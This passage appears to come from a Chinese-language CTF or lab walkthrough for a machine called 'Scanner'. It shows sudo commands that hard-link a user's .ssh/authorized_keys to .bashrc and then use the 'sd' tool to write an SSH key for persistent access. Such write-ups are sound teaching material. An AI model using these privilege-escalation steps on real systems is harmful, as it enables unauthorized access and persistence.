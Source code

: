 ![](/medias/Scanner/12.png)


创建authorized_keys的硬链接，指向/home/welcome/.bashrc

```bash
sudo -u welcome /usr/bin/ln -f /home/welcome/.bashrc /home/welcome/.ssh/authorized_keys
```


查看/home/welcome/.ssh/authorized_keys内容

```bash
sudo -u welcome /usr/bin/sd -p '(.*)' '$1' /home/welcome/.ssh/authorized_keys
```

密钥成功写入

![](/medias/Scanner/13.png)
